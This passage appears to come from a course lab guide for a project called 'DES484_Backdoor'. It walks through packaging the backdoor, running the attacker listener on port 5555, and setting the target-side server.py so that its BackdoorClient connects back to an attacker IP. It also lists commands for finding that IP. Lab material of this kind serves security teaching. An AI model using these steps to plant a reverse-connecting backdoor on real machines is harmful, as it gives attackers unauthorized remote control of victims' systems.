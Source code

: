 ```bash
# Windows: Download from ffmpeg.org and add to PATH
```

#### 1.3 Prepare Target Package

**Full Package (with all features):**

```bash
# Create deployment package
cd ~/Desktop
tar -czf backdoor_full.tar.gz DES484_Backdoor/

# Or create zip
zip -r backdoor_full.zip DES484_Backdoor/
```

### Phase 2: Configuration

#### 2.1 Configure Attacker (backdoor.py)

The backdoor.py is already configured to listen on all interfaces (0.0.0.0).
No changes needed unless you want a different port:

```python
# In backdoor.py (already configured):
HOST = '0.0.0.0'  # Listen on all interfaces
PORT = 5555       # Default port
```

#### 2.2 Configure Target (server.py)

**Edit server.py and update these lines:**

```python
# At the bottom of server.py (around line 490)
if __name__ == "__main__":
    # Configuration - Change these to match your attacker machine
    ATTACKER_HOST = '192.168.1.12'  # ← Change to YOUR attacker IP
    ATTACKER_PORT = 5555            # ← Change if needed

    # Create and start backdoor client
    client = BackdoorClient(ATTACKER_HOST, ATTACKER_PORT)
    client.connection()
```

**Finding the right IP:**

```bash
# On attacker machine:
# For VMs in same network:
ip addr show eth0        # Or eth1, wlan0, etc.

# For physical machines:
ifconfig                 # Look for your active interface

# For Docker:
docker inspect backdoor-lab | grep Gateway
```
